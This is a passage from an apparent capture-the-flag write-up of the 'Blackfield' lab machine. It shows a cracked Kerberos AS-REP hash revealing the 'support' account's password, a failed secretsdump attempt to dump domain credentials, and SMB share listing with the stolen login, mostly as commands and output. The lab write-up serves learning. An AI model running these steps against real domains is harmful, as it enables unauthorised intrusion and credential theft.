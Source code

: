 ```

Started: Sun Jun 07 20:20:37 2020
Stopped: Sun Jun 07 20:21:47 2020
```

The password was cracked (easily in less than 2 minutes with on an 8GB RAM old laptop)

> $krb5asrep$23$support@BLACKFIELD.LOCAL:d9141b86bf7af57b77fea4f6...........:**#00^BlackKnight**

Uncertain that the characters (#00^) in the password were not somehow an error, I grep the wordlist to make sure it was there

```
root@kali:~/pwn_share/Machines/Blackfield# grep "BlackKnight" /usr/share/wordlists/rockyou.txt 
#00^BlackKnight
```

**Secrets (failed):**

```
root@kali:/opt/impacket/examples# python secretsdump.py dc01.blackfield.local/support@10.10.10.192 -use-vss
Impacket v0.9.21.dev1+20200225.153700.afe746d2 - Copyright 2020 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Searching for NTDS.dit
[-] 'NoneType' object has no attribute 'request'
[*] Cleaning up...
```

**User 2 - audit2020:**

<u>**AD Password Reset**</u>

So far, the credentials obtained are 
support:#00^BlackKnight

as expected the credentials did not work with remote login using EvilWin-RM.

Going back to the shares.

The only new thing is the SYSVOL share which can now be access and listed:

```
root@kali:/tmp# smbclient \\\\10.10.10.192\\SYSVOL -U"support%#00^BlackKnight"
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Feb 23 13:13:05 2020
  ..                                  D        0  Sun Feb 23 13:13:05 2020
  BLACKFIELD.local                    D        0  Sun Feb 23 13:13:05 2020

                7846143 blocks of size 4096. 4069964 blocks available
smb: \> cd BLACKFIELD.local\
smb: \BLACKFIELD.local\> dir
  .                                   D        0  Sun Feb 23 13:19:28 2020
  ..                                  D        0  Sun Feb 23 13:19:28 2020
  DfsrPrivate                       DHS        0  Sun Feb 23 13:19:28 2020
  Policies                            D        0  Sun Feb 23 13:13:14 2020
  scripts                             D        0  Sun Feb 23 13:13:05 2020

                7846143 blocks of size 4096. 4069964 blocks available
```

